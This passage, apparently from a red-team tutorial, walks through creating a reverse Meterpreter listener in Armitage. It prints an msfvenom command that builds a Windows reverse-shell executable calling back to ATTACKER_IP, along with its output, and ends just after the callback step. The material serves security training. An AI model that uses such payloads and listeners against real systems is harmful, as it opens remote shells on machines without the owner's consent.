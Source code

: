 We highly recommend putting firewall rules in place for C2 servers that must listen on a public interface so only the intended users can access your C2 server. There are various ways to do this. If you are hosting Cloud infrastructure, you can set up a Security Group or use a host-based firewall solution like UFW or IPTables.

```
Creating a Listener in Armitage
```

Next, we’re going to move onto a topic that all C2 servers have — this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let’s create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the “Listeners” section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

![](https://miro.medium.com/v2/resize:fit:1392/0*T5eEX_jDFttkKMn3.png)

_Creating a Listener in Armitage_

After clicking “Reverse,” a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, “Shell” or “Meterpreter”. Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

![](https://miro.medium.com/v2/resize:fit:710/0*Ajd97tiimBmxHQPe.png)

_Configuring the Listener_

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

![](https://miro.medium.com/v2/resize:fit:1400/0*wuJlnKUvew-loj5n.png)

_Listener successfully configured_

After setting up a listener, you can generate a standard windows/meterpreter/reverse\_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.

**Getting a Callback**

MSFVenom Payload Generation

```
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x86 from the payloadNo encoder specified, outputting raw payloadPayload size: 354 bytesFinal size of exe file: 73802 bytesSaved as: shell.exe
```

After generating the windows/meterpreter/reverse\_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

![](https://miro.medium.com/v2/resize:fit:1400/0*gp58nY0czkD4hykN.png)
